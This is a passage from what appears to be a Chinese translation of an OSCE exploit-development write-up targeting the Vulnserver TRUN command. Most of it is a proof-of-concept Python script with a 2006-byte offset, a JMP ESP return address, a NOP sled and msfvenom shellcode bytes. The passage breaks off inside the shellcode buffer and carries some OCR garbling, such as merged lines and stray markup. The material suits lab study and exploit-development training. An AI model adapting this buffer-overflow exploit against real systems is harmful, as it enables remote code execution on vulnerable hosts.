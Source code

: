 ![](img/73e240d6f305489e94b2c30509eafcb2.png)

msfvenom 外壳代码

## 最终利用

让我们用创建的外壳代码来完成我们的 PoC 脚本。此外，在外壳代码前添加一些 no sled(`\x90`)，以便我们的外壳代码可以正确地添加到堆栈中。

```
**###** [**Final_trun.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/TRUN/final_trun.py)import socket
import struct
import os
import systrun = "TRUN ."
offset = 2006
eip = struct.pack("<I", 0x62501205)                ** # JMP ESP**
nop = "\x90" * 50                                   **# Nopsled** buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
```